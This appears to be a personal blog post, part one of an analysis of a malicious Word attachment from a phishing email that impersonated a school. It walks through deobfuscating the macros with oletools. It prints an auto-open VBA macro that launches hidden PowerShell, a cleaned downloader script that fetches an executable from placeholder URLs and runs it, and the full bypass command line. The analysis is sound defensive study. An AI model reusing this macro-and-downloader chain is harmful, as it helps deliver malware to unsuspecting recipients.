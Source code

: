 ```yaml
---
layout: post
title: "Malware analysis write-up: hotspotsel (1/2)"
audio: false
tldr: false
location: "Freiburg, Germany"
---
```


I know, that title sounds weird, especially here, especially me. Security has
been my secret thing for a very long time but I never talked about it before. I
started digging into "malware analysis" some time ago, mostly because I did not
know anything about malware (except that they were not nice). I still do not
know a lot about this topic, but I learned a few things already.

Earlier this week, one of my friends received an email from his child's school.
It was a reply to an email he sent a couple months ago, about his child being
sick back then. Although the content of the email seemed legit, a file named
`ANHANG-16231-21845251.doc` was attached to it, which alerted my friend. He
called the school and got confirmation that no one sent such an email.

My friend asked me what I thought about this story. Double-checking the email
headers, it was trivial to confirm that the school's employee was impersonated.
Given that the reply matched his email, the emails of this person were likely
dumped a while ago and the bad folks started to make "good" use of them. Before
leaving him, I asked my friend to forward me the `.doc` file. See what's coming
next? 😉

## `ANHANG-16231-21845251.doc`

I uploaded this file on [VirusTotal](https://www.virustotal.com) but did not get
a lot of information, so I started a VM with a set of tools to perform static
analysis of this document file.

I am not an expert but I know that Microsoft documents can embed and run
[macros](). I also know that macros have access to a lot of APIs and can run
commands. The only set of tools I am aware of to deal with such formats/files is
[oletools](https://github.com/decalage2/oletools). I knew that this file was
likely hiding macros, but my experience with the so-called "hacking challenges"
also taught me about not overlooking the enumeration phase.

I analyzed the file with `oleid`, which confirmed my intuition and also
indicated that the file was not encrypted:

```
oleid 0.54 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: ./ANHANG-16231-21845251.doc
 Indicator                      Value
 OLE format                     True
 Has SummaryInformation stream  True
 Application name               Microsoft Office Word
 Encrypted                      False
 Word Document                  True
 VBA Macros                     True
 Excel Workbook                 False
 PowerPoint Presentation        False
 Visio Drawing                  False
 ObjectPool                     True
 Flash objects                  0
```

The second tool I used was `olevba` to extract the VBA macros from the file
without running them. The output I received looked obfuscated (the snippet below
has been truncated):

```
olevba 0.54.1 on Python 2.7.16 - http://decalage.info/python/oletools
===============================================================================
FILE: ./ANHANG-16231-21845251.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO Swlfot9.cls
in file: ./ANHANG-16231-21845251.doc - OLE stream: u'Macros/VBA/Swlfot9'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO zC7wlka.vba
in file: ./ANHANG-16231-21845251.doc - OLE stream: u'Macros/VBA/zC7wlka'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub K9hj1nG()
   Debug.Print "724" + ("516") + ("UPOp3Hrt" + ("23" + "361") + "vC9PPmCK" + ("rjITKvEv"))
Debug.Print "20" + ("994") + ("u_8YY68" + ("791" + "454") + "rbk4PQH" + ("iqapjj9"))
Debug.Print "942" + ("653") + ("pqQI0T2" + ("226" + "126") + "N7OT4k" + ("Z6j2ENjS"))
   Debug.Print "387" + ("127") + ("wjf7biL" + ("20" + "64") + "nE0OG8" + ("GNXHVKT"))
Debug.Print "255" + ("590") + ("kPaztnd9" + ("626" + "534") + "nc7FkKV" + ("itIImYJ"))
Debug.Print "763" + ("124") + ("lLo5VRP" + ("611" + "629") + "tJnnqa" + ("EPdjCjRp"))
End Sub
Sub _
autoopen( _
)

[...]
```

I took a look at the `olevba` documentation and learned about the `--reveal`
experimental feature. In my case, it worked well and this feature cleaned the
code a bit. It was still obfuscated but less weird:

```
Attribute VB_Name = "zC7wlka"
Sub K9hj1nG()
   Debug.Print "724516UPOp3Hrt23361vC9PPmCKrjITKvEv"
Debug.Print "20994u_8YY68791454rbk4PQHiqapjj9"
Debug.Print "942653pqQI0T2226126N7OT4kZ6j2ENjS"
   Debug.Print "387127wjf7biL2064nE0OG8GNXHVKT"
Debug.Print "255590kPaztnd9626534nc7FkKVitIImYJ"
Debug.Print "763124lLo5VRP611629tJnnqaEPdjCjRp"
End Sub
Sub autoopen( )
   Debug.Print "588496Bn5Mps680785i9QMw62Vw29iIrvf"
Debug.Print "984870ZavHKq723615HYijaGWMHILLpV"
Debug.Print "58974piKRd2450645jwOkskOoIvNiL"
lc8cJsPt
   Debug.Print "860836EYdLCWj544391w0whi5Mmcto3"
Debug.Print "12319b1Pp9wzc397829Xozjntl2HkNCop"
Debug.Print "826309uz3s8R5980Z6jEJwMSGtCq"
End Sub

[...]
```

I went ahead an cleaned the code even more but I had two references to another
OLE "thing" named `Swlfot9` that I could decode. I knew it had something to do
with [PowerShell]() given the `"powe"` string but I could not find anything
else.

```
Attribute VB_Name = "zC7wlka"

Sub autoopen()
	lc8cJsPt
End Sub

Sub lc8cJsPt()
	Set Win32ProcessstartupObj = GetObject("winmgmts:Win32_ProcessStartup")
	Win32ProcessstartupObj.ShowWindow = 0

	Set Win32ProcessObj = GetObject("winmgmts:Win32_Process")
    Win32ProcessObj.Create "powe" + Swlfot9.FbFMIBR + Swlfot9.bLJAPOF,
	Null,
	Win32ProcessstartupObj,
	ProcessId
End Sub
```

I saw the name `Swlfot9` in the very first `olevba` output though, so I knew
that something was still there, but I could just not see it. I tried some other
oletools but it was a dead-end.

I decided to give the `strings` command a try and found a very large string that
looked like a bas64-encoded string. I piped this string to `base64 -d` and got
some PowerShell code in return:

```powershell
$XvmIXvo='t6jTbM';$PbDL43 = '71';$uj6EVuv='L8KMkkX'; [...]
```

Given that I was stuck with the VBA macro, I decided to clean the PowerShell
code to better understand it. There were unused variables and weird
PowerShell-allowed calls, but in the end, here is what I ended up with:

```powershell
# `$env:userprofile` returns the full path of the profile directory.
$pathToExe = $env:userprofile+'\71.exe';

$webClient = New-Object Net.WebClient;

# List of URLs pointing to a program to download
$urls = [
    http://some.example.com/folder-123/,
    http://another.example.com/folder-456/,
]

foreach ($url in $urls) {
    try {
        # Try to download a program...
        $webClient.DownloadFile($url, $pathToExe);

        # if it worked, then...
        If ((Get-Item $pathToExe).length -ge 24103) {
            # run it!
            Invoke-Item $pathToExe;
            break;
        }

        # otherwise, keep trying.
    } catch {
    }
}
```

This PowerShell script is a **downloader**: its job is to download a really
malicious program. In order to know what kind of program it could be, I used a
third party service to download the program from one of the URLs in the list
above and this service then sent the program to me:

```
$ file 71.exe
71.exe: PE32 executable (GUI) Intel 80386 (stripped to external PDB), for MS Windows
```

Before digging into this program, I still had to fully understand the VBA
macro... I searched for a tool able to dump an OLE "thing" from a `.doc` file
and discovered
[oledump.py](https://blog.didierstevens.com/programs/oledump-py/). Analyzing the
different sections, I found an interesting item that I dumped as ASCII:

```
rshell -ExecutionPolicy bypass -WindowStyle Hidden -noprofile -e ,
```

This string corresponded to `Swlfot9.FbFMIBR`. Therefore the other reference was
the payload reversed before. Below is the full line of code (`"PAYLOAD"` should
be replaced with the PowerShell script):

```
Win32ProcessObj.Create "powershell -ExecutionPolicy bypass -WindowStyle Hidden -noprofile -e" + "PAYLOAD"
```
